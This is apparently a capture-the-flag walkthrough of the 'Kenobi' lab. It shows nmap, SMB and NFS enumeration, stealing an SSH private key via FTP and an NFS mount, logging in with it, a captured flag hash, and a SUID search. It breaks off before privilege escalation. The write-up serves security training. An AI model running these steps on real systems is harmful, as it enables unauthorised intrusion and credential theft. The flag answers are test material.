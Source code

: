 # kenobi [by hatim satri]

![ken](https://user-images.githubusercontent.com/32848915/197361401-106ba5cb-e7d2-49b5-a8f3-53b8182f4f8e.PNG)

🔴️Task 1  Deploy the vulnerable machine:
==========================================
	Scan the machine with nmap, how many ports are open?	
		nmap -sC -sV -oN nmap 10.10.77.115
			==>7

🔴️Task 2  Enumerating Samba for shares
=======================================
	- Using the nmap command above, how many shares have been found?
		nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.77.115 -Pn
		//this command Using nmap we can enumerate a machine for SMB shares.
			==>3
	- On most distributions of Linux smbclient is already installed. Lets inspect one of the shares.
	smbclient //<ip>/anonymous
	Using your machine, connect to the machines network share.
		#smbclient \\10.10.77.115\anonymous
			==>log.txt
			
	- What port is FTP running on?
		==>21
		
	- What mount can we see?
		sudo nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.77.115 -Pn
		==> /var
		
🔴️Task 3  Gain initial access with ProFtpd
=======================================
	// ProFtpd is a free and open-source FTP server, compatible with Unix and Windows systems. Its also been vulnerable in the past software versions.
	
	- Lets get the version of ProFtpd. Use netcat to connect to the machine on the FTP port.
		#nmap -sC -sV -oN proftpd-scan 10.10.77.115
			==> 1.3.5
			
	- How many exploits are there for the ProFTPd running? use searchsploit
			$searchsploit proftpd 1.3.5
			==> 4
			
	
	- Let’s connect to the FTP service and copy the SSH private key to /var/tmp/:
		$ nc 10.10.66.120 21
	
	- Lets mount the /var/tmp directory to our machine
		$ mkdir /mnt/kenobiNFS
		$ mount 10.10.66.120:/var /mnt/kenobiNFS
		$ ls -la /mnt/kenobiNFS	
		$ cd /mnt/kenobiNFS/tmp/
		$ chmod 600 id_rsa 
		$ ssh -i id_rsa kenobi@10.10.66.120
			kenobi@kenobi:~$ ls -l
			total 8
			drwxr-xr-x 2 kenobi kenobi 4096 Sep  4  2019 share
			-rw-rw-r-- 1 kenobi kenobi   33 Sep  4  2019 user.txt
			kenobi@kenobi:~$ cat user.txt 
			d0b0f3f53b6caa532a83915e19224899
			
🔴️Task 4  Privilege Escalation with Path Variable Manipulation :
================================================================

![s](https://user-images.githubusercontent.com/32848915/197361485-388a6019-3e94-45c1-9cd6-e05f1579ec3a.PNG)

	- Let’s check files with SUID bit set:
		$find / -perm -u=s -type f 2>/dev/null
			==>/usr/bin/menu
			
	- Instructions

		Run the binary, how many options appear?

		Answer

		When we run the program, we have a menu with 3 options:
			/usr/bin/menu 
				***************************************
				1. status check
				2. kernel version
				3. ifconfig
				** Enter your choice :
				
			==> 3
